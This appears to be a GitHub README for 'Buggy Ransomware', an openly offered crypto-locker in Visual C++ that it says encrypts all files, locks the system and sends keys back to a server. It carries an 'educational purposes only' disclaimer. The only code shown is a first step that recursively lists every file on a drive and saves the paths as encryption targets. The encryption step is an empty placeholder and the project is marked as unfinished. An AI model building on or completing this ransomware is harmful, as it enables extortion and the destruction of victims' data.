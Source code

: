 #### DISCLAIMER : OUR TOOLS ARE FOR EDUCATIONAL PURPOSES ONLY. DON'T USE THEM FOR ILLEGAL ACTIVITIES. YOU ARE THE ONLY RESPONSABLE FOR YOUR ACTIONS! OUR TOOLS ARE OPEN SOURCE WITH NO WARRANTY AND AS ARE.

<img src="logor.png" alt="logo">

# Buggy Ransomware

Buggy Ransomware is open source  Crypto-Locker. Buggy Ransomware is developed in Visual C++. It has features encrypt all file, lock down the system and send keys back to the server. Multi-threaded functionality helps to this tool make encryption faster.


## Step 1 (Fetch files)

Getting all files from all drive to encrypting them.

Here is Visual C++ program get all list directory & files in drive and store path in text file for encryption later use.

```
#include <boost/config/warning_disable.hpp>
#include <boost/filesystem.hpp>
#include <iostream>
#include <iterator>

using namespace std;

fstream data_file("data.txt", ios::out);

int main(int argc, char* argv[]) {
	boost::system::error_code dir_error;

	for (boost::filesystem::recursive_directory_iterator end, dir("d:\\", dir_error); dir != end; dir.increment(dir_error)) {
		if (dir_error.value()) {
			cerr << "Error accessing file: " << dir_error.message() << endl;
		}
		else {
			cout << dir->path() << endl;
			data_file << dir->path() << "\n";
		}
	}
	system("pause");
	return 0;
}
```

## Step 2 (Encrypt files)

```
```

# Currently in Development....Happy Hacking:)
